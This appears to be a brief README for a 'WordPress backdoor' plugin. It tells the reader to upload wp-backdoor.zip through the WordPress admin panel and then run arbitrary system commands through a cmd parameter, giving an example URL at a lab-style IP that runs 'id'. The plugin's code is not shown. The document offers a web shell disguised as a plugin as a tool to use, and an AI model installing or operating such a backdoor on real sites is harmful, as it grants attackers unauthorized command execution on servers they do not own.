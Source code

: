Wordpress Backdoor script

Install the wp-backdoor.zip on the wp admin site.

URL: http://wp/wp-content/plugins/wp-backdoor/wp-backdoor.php?cmd=COMMAND

e.g.: http://10.11.1.251/wp/wp-content/plugins/wp-backdoor/wp-backdoor.php?cmd=id

TIS! Have fun! ;)

#tis #havefun #sander
